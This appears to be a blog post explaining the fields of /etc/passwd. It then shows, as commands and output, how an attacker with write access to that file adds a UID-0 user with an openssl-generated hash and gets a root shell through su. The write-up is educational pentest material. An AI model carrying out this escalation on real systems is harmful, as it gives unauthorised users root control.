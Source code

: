```yaml
---
layout: post
title: Hacking /etc/passwd
catagories: Insecurity
---
```

I've been crazy busy with various projects and wanted to remember this trick for `/etc/passwd` in the event you have write access to the file.  I found myself in a position where I had a low-level shell and had write access to `/etc/passwd`.  I couldn't remember having done this before and didn't have any notes on it, so here it is.

Let's assume you know the basics about what `/etc/passwd` does.  You may not remember/know what the fields are in the passwd file.  I always ask it on interview questions.

As a quick refresher we'll use this line from /etc/passwd:
```
harold:x:1001:1001:harold,,,:/home/harold:/bin/bash
   1    2  3    4       5          6            7
```
There are 7 fields separated by a ':'

|Space      |Field          |Description  |Purpose    |
|--- |--- |--- |---
|1 |harold        |Username     |Username   |
|2 |x              |Password     |Placeholder for password[^1] |
|3 |1001           |UID          |Numeric representation of username |
|4 |1001           |GID          |Numeric representation of default group |
|5 |harold,,,     |GECOS        |General info about the account[^2] |
|6 |/home/harold  |Home dir     |Location of home directory |
|7 |/bin/bash      |Shell        |Default shell |

Now, we have this `/etc/passwd` file that we can write to, but still can't set a password with the passwd command or edit the `/etc/shadow` file.  Enter openssl.  With openssl we can create an encrypted password and put it right into the passwd file.

First we create the hash
```
bash-4.2$ openssl passwd -1 -salt badguy pass123
$1$badguy$zgKg42t10j4SEDtASy6ML1
```
Next we append the "new user" into the password file along with root's UID
```
badguy:$1$badguy$zgKg42t10j4SEDtASy6ML1:0:0:root:/root:/bin/bash
```
Finally, we can escalate
```
bash-4.2$ su - badguy
Password:
Last login: Fri Dec  6 16:10:18 EST 2019 from 192.168.1.5 on pts/0
[root@server ~]# whoami
root
```

[^1]: Modern Unix/Linux operating systems keep the encrypted password in `/etc/shadow.`  The 'x' indicates there is a password set, and is encrypted in `/etc/shadow`.  Usually accounts with an * (asterisk) in password field don't have a password e.g: disabled for login.

[^2]: The GECOS field is typically used to record general information about the account or its user(s) such as their real name and phone number. Historically, some early Unix systems at Bell Labs used GECOS machines for print spooling and various other services, so this field was added to carry information on a user's GECOS identity.